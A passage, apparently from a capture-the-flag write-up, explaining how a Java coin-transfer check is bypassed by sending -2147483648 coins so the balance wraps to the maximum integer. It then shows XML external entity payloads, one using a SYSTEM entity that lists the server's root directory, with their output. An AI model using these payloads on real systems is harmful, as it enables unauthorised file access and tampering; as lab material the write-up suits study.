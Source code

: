 ```java
      IO.printStatus("-", "You cannot generate debts!\n\n");
      return false;
    }
    setCoins(decreasedCoins);
    
    IO.printStatus("-", "Decreased the account of \"" + getName() + "\" by " + String.valueOf(amount) + "\n");
    
    return true;
  }
```

To do this we need to have more than 0 coins, otherwise we are rejected by the first if clause. So we start by sending 1333 coins to charity (such that only 1 coin is left). Then, thanks to binary representation of signed integer the following happens when sending -2147483648 (0x80000000) coins to charity:

1. amount <0 => amount *= -1
2. amount is still the same thanks to signed int representation
3. decreasedCoins = 1 - amount - 2 = (1 - 0x80000000) - 2  = (0x80000001) - 2 = 0x7fffffff = 2147483647
4. since decreasedCoins is >0 we get that amount on our account.

Now we can start to play with the send XML function. We see that our messages are somehow processed and displayed back. And then when XML is processed we can start some tests with XXE and we see immediately that it works, see the excerpt below:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e "FOO">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>FOO</a></doc>
```

Then we use the SYSTEM keyword to see if we can access the current directory:
```
[?] Action: 2
[-] Decreased the account of "billy" by 1337
[?] XML Message: <!DOCTYPE doc [<!ENTITY e SYSTEM "./">]><doc><a>&e;</a></doc>
[+] Your secret xml message: <doc><a>.dockerenv
bin
dev
etc
home
lib
lib64
linuxrc
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
</a></doc>
```
